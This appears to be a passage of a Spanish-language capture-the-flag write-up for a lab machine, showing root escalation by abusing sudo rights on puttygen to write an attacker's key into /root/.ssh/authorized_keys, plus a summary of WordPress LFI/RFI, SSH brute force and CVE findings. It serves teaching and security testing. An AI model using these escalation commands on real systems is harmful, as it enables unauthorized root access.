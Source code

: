 El exploit de SSH **CVE-2023-38408** es para `ssh-agent` con sockets y librerías maliciosas, pero como ya tenemos un acceso root indicado a través de `puttygen`.

PuTTYgen es una herramienta generadora de llaves para crear claves SSH públicas y privadas.[fuente](https://www.puttygen.com/)
Podemos aprovecar este binario para crear una clave SSH como root en `authorized_keys`.

Generamos una clave SSH: `$ssh-keygen -t rsa -b 2048 -f rootkey`.
- `rootkey` es la clave privada
- `rootkey.pub` es la clave pública

A través de un recurso compartido se subió la clave generada a la máquina víctima:
```python
curiosito@185c8bd9fa1e:~$ wget http://172.17.0.1:8000/rootkey
[...]
Saving to: 'rootkey'

rootkey              100%[=====================>]   1.78K  --.-KB/s    in 0s     
```

Se creó la clave pública en formato OpenSSH (válida para `authorized_keys`) usando `puttygen` como root. Para después procder con poner el archivo en el lugar correcto usando el mismo binario.
```python
curiosito@185c8bd9fa1e:~$ sudo /usr/bin/puttygen rootkey -O public-openssh -o authorized_keys
curiosito@185c8bd9fa1e:~$ ls
authorized_keys  key.pub  rootkey
curiosito@185c8bd9fa1e:~$ sudo /usr/bin/puttygen authorized_keys -O public-openssh -o /root/.ssh/authorized_keys
```

## Resultados-PoC
En nuestra máquina atacante nos podemos conectar por ssh, teniendo la explotación ejecutada anterior:
```js
$ssh -i rootkey root@asucar.dl
Linux 185c8bd9fa1e 6.12.12-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.12.12-1parrot1 (2025-02-27) x86_64

[...]

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@185c8bd9fa1e:~#
```


### Hallazgos de postura de seguridad
**Reconocimiento:**
- Uso necesario de  `-Pn` para escaneo de puertos
- Versión vulnerable de ssh **CVE-2023-38408**
- Versión antigua de wordpress
- Código fuente filtrado en página principal
- Acceso a panel de administración y directorios sensibles de wordpress

**VulnGathering:**
- Existencia de xmlrpc.php
- Posible LFI, a través del tema twentytwentyfour.
- RFI en plugin site-editor 1.1.1 **CVE-2018-7422**

**Engaño:**
- LFI con **CVE-2018-7422**

**Explotación:**
- Ataque por fuerza bruta SSH

**GanarControl:**
- Permisos inseguros para `/usr/bin/puttygen`

